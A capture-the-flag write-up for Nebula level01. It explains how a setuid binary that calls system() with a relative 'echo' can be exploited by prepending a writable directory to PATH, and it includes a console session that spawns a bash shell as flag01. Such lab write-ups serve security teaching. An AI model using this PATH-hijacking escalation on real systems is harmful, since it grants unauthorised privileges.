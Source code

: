 The file /home/flag01/flag01 has the setuid bit set. This means that when we run the program from the account level01, the effective user id is that of the user flag01. We notice that the argument given to the function `system` specifies the command `echo` with relative path. This is a vulnerability because we can simply prepend a directory to `PATH` that we can write to, and then create our very own script named echo that launches whatever program we like. 

Let us demontrate the vulnerability by launching bash as the user flag01 from the user level01.

```console
level01@nebula:~$ ll /home/flag01/flag01 
-rwsr-x--- 1 flag01 level01 7322 Nov 20  2011 /home/flag01/flag01*
level01@nebula:~$ pwd
/home/level01
level01@nebula:~$ export PATH=/home/level01:$PATH
level01@nebula:~$ $PATH
/home/level01:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games: No such file or directory
level01@nebula:~$ echo "/bin/bash" > ./echo
level01@nebula:~$ /home/flag01/flag01
flag01@nebula:~$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
```
